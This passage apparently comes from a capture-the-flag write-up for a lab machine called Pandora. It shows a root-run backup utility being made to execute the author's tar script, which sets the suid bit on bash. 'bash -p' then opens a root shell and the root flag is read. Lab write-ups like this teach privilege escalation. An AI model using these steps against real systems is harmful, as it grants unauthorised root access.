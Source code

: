 Now we can run `pandora_backup` which executes our tar script as root.

```
matt@pandora:~$ pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
Backup successful!
Terminating program
```

Bash has now the suid bit set and we are able to simply drop into a root shell and add the flag to our collection.

```
Terminating program!
matt@pandora:~$ bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```